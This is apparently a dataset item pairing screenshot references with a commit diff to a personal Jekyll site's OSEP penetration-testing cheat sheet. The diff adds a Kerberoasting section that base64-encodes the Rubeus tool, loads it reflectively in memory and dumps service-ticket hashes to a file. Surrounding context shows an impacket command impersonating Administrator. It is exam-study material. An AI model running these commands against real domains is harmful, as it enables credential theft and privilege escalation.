

Before and after one commit to wez3/wez3.github.io, a Jekyll site: the page built from osep.md, in a window 1280 px wide and 900 px high, scrolled down 17035 px. Shown: the whole window, without its empty margins (211-1068 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update osep.md

````diff
--- a/osep.md
+++ b/osep.md
@@ -761,6 +761,21 @@ Get service ticket using impacket
 python3 /usr/share/doc/python3-impacket/examples/getST.py -spn CIFS/HOST.DOMAIN.COM -impersonate 'Administrator' -dc-ip 1.1.1.1 'DOMAIN/rbcd$:Password12345'
 ```
 
+## Kerberoasting
+
+PowerShell load assembly Rubeus from base64
+```powershell
+[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Rubeus.exe")) | Out-File -Encoding ASCII C:\Temp\rubeus.txt
+
+$a = Get-Content .\rubeus.txt
+$assem = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($a))
+```
+
+Export all available tickets
+```
+[Rubeus.Program]::Main("kerberoast /outfile:C:\temp\hashes.txt".Split())
+```
+
 ## Forest enum
 
 Get trusted domains
````
